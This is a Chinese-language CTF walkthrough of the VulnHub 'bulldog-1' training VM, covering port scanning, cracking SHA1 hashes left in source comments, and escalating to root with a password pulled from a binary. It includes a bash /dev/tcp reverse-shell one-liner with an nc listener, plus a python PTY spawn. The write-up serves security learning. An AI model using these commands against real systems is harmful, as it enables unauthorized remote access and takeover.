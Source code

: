 # VulnHub: bulldog-1
- https://www.vulnhub.com/entry/bulldog-1,211/
## Walkthrough
使用VirtualBox開啟虛擬機，可自動取得靶機ip，利用nmap掃port，http端口80、8080，ssh端口23皆為開放狀態  
DirBuster爆破目錄，發現在/dev/中的source code有提示

> Need these password hashes for testing. Django's default is too complex  
We'll remove these in prod. It's not like a hacker can do anything with a hash

把註解中的password拿去sha1 decode，求出nick跟sarah的password，試探用database(sarah)去登/admin/，成功，但無編輯權限  
發現/dev/shell網頁，登入sarah後擁有權限，試圖用bash反彈shell，失敗，最後用echo成功  
攻擊機:`nc -l 3333`  
靶機shell欄位:`echo "bash -i >& /dev/tcp/10.10.10.10/3333 0>&1" | bash`  

查看可疑user，發現bulldogadmin和django  
查看bulldogadmin文件，發現可疑目錄/bulldogadmin/.hiddenadmindirectory
從note中發現提示

> Literally run the app, give your account password

用strings查看customPermissionApp，發現奇怪字眼  
`SUPERultH  
imatePASH  
SWORDyouH  
CANTget`  
研究了一下，刪掉H之後:  
`SUPERultimatePASSWORDyouCANTget`  
得到一串很像是密碼的東西，但並不確定，su試試，先解決error問題  
`python -c 'import pty;pty.spawn("/bin/bash")'`  
嘗試登入root帳號，密碼登入成功，回到/root目錄發現congrats.txt文件  
cat congrats.txt文件，成功看到祝福文
